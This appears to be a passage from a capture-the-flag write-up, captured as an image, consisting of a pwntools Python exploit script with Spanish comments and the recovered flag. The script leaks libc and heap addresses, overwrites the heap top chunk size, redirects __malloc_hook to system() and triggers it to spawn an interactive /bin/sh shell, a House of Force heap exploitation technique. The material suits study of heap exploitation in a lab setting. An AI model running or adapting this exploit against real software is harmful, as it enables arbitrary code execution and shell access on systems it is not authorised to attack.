 ```python


def trigger(cmd_addr):
    io.sendlineafter(b"destino:", b"1")
    io.sendline(hex(cmd_addr).encode())  # esto ejecutará system("/bin/sh")


io = start()

system_addr, heap_base = leak()
log.info(f"Leak system(): {hex(system_addr)}")
log.info(f"Leak heap:     {hex(heap_base)}")

build(1, "Y"*8)
renew(b"0", b"/bin/sh\0" + b"Y"*16 + p64(0xfffffffffffffff1))
target   = libc.sym.__malloc_hook - 0x20
heap_ptr = heap_base
distance = target - (heap_ptr + 0x30)

log.info(f"target={hex(target)} heap_ptr={hex(heap_ptr)} distance={distance}")
assert distance > 0           

distance = (libc.sym.__malloc_hook -0x40 ) - (heap_base + 0x90)

build2(distance, b"/bin/sh\0")
build2(24, p64(libc.sym.system))
binsh = next(libc.search(b"/bin/sh"))
trigger(binsh)


binsh = next(libc.search(b"/bin/sh"))
log.info(f"'/bin/sh' @ {hex(binsh)}")
io.interactive()
```

> **flag: nnctf{QU3_3L_H4USUFUC0_T3_4C0MP4N3}**